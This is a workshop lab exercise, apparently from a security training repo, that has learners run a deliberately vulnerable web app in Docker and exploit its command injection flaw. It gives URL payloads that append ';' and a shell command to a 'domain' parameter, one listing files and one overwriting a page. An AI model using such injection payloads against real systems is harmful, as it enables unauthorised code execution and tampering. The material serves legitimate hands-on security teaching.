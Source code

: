 # Exercise #3

## Taking advantage of devlopers' misconfigurations.

### Preface: "I get it!" Developers have it hard, they are expected to very rapidly and correctly churn out business requirements "AS CODE". Sometimes, this can lead to shortcuts or just plane old "copied" sample as code just to meat a need.
![Oreilly Funny](Files/images/oreilly_funny.jpg)
Let's look at the same exercise again from the perspective of the attacker.

#### Here we go ...

- Change directory so you are in the __<REPO_ROOT>/Exercises/Break/Files/break_e3/__ directory.
- Do a ```ls``` command to make sure, you should see:
```
about.html      break_e3.yml    dsvw.py     index.html
```
This is the __same__ code sample as before, just copied here for completeness and to keep stuff separate. Anyway ~
- Run the docker-compose command with our defnition file.
```
docker-compose -f break_e3.yml up -d
```
This will start up a docker container with our app running inside it. Now go navigate your web browser to view it.
You can do this in many ways, but two come to mind. Use either your "host" browser or make use of the firefox browser within kali linux.

TO use your host browser, you will need to find your kali linux IP with a command something like this:
![ifconfig eth0](Files/images/kali_ifconfig.jpg)
or just find it via the ```ifconfig eth0``` command.
Or again make use of the firefox browser within kali linux:
![kali firefox](Files/images/kali_firefox.jpg)

Then navigate to your new dev site: ```http://127.0.0.1:1234```
![kali firefox](Files/images/kali_e2_site.jpg)

Or use your Host browser if you want ```http://<kali ip>:1234/```

## Did you find it?
### Looks like there is a R.C.E. vulnrability in the "Kernelcon check" link. if you were to add a ```;``` followed by additional code; you gain code execution on the webserver. Very Bad! Try it:
```
http://<your IP>:1234/?domain=kernelcon.org%3B%20ls
```
or try this one:
```
http://<your IP>:1234/?domain=kernelcon.org%3B%20echo%20%22(%E2%95%AF%C2%B0%E2%96%A1%C2%B0)%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB%22%20%3E%20app%2Fabout.html
```
now go back and click on that __About us__ link.

## In and of itself, that R.C.E. IS bad, but could be contained within the container. The REAL issue steams from the fact that the developer left "read/write" access to their dev directory. (more on that later).

## When you are done, just pull down your dev. env. via the __docker-compose__ command again.
```
docker-compose -f break_e3.yml down
```

[Return to schedule](../../Docs/SCHEDULE.md)

